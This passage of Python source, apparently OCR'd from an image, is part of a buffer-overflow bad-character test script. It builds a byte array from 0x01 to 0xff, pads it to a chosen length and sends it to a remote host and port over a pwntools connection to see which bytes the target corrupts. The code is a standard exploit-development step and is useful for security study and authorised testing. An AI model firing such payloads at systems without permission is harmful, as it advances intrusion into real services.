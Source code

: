 	args = parser.parse_args()
	# set host
	host=args.host if args.host  else exit(0)
	# set port
	port=int(args.port) if args.port else exit(0)
	# set prepend value if needed
	prepend=args.prepend
	prependIsSet=True if prepend else False
	pad = int(args.pad) 
	
	badchars = (
	  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
	  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
	  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
	  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
	  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
	  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
	  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
	  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
	  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
	  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
	  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
	  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
	  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
	  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
	  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
	  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
	)
	
	print('[+] Configured Target: {}:{}'.format(host,port))
	print("[+] Configured custom prepend value: {}".format(prepend)) if prependIsSet else print("[-] No custom prepend value set")
	print('[+] Configured pad length: {}'.format(pad))
	padding=b"A"*(pad-len(badchars)-len(prepend)-1) if prependIsSet else b"A"*(pad-len(badchars))
	
	con = remote(host,port)
	try:
	    print("Welcome Msg: " + con.recvline(timeout=3).decode())
	except:
	    print('no welcome msg')
	
	print((prepend+" ").encode()  +badchars + padding) if prependIsSet else print(badchars +padding)
	con.sendline((prepend+" ").encode()+ badchars+padding)  if prependIsSet else con.sendline( badchars + padding)
	print("[1] Output: {}".format(con.recvline(timeout=3).decode()))
	
	
	```
